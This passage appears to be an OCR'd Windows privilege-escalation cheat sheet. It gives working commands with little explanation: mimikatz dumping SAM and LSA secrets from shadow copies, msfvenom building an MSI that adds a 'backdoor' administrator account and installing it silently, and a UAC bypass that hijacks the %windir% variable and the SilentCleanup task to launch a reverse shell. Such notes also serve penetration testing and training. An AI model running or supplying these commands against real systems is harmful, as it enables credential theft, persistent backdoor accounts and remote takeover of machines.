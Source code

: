 # Extract account from SAM databases
mimikatz> lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

# Extract secrets from SECURITY
mimikatz> lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
```
### AlwaysInstallElevated
```
Using the reg query command, you can check the status of the AlwaysInstallElevated registry key for both the user and the machine. If both queries return a value of 0x1, then AlwaysInstallElevated is enabled for both user and machine, indicating the system is vulnerable.

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
OR
Get-ItemProperty HKLM\Software\Policies\Microsoft\Windows\Installer
Get-ItemProperty HKCU\Software\Policies\Microsoft\Windows\Installer

Create MSI package and install

$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi-nouac -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi
```

### Bypass UAC
```
whoami /all
```
If user is running at a medium mandatory level (Mandatory Label\Medium Mandatory Level).

Task Scheduler task in order to bypass UAC. We will exploit the task
'DiskCleanup'

The environmental variable that this task uses is %windir%. This variable simply resolves to
"C:\WINDOWS", and is used to find the windows directory. The reason why this task uses this
environmental variable is to run a command that is located within the %windir% directory.

We will change the environmental variable to be:
```
"cmd.exe /c C:\reverse.exe EXEC:cmd.exe,pipes &REM "
```
```
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\reverse.exe EXEC:cmd.exe.pipes &REM " /f
```
start up a netcat listener on port 4444
restart the service
```
schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

if not working try
```reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c start C:\reverse.exe" /f```
```schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I```




### Juicy Potato
Versions
- Windows_10_Enterprise
- Windows_10_Pro
```
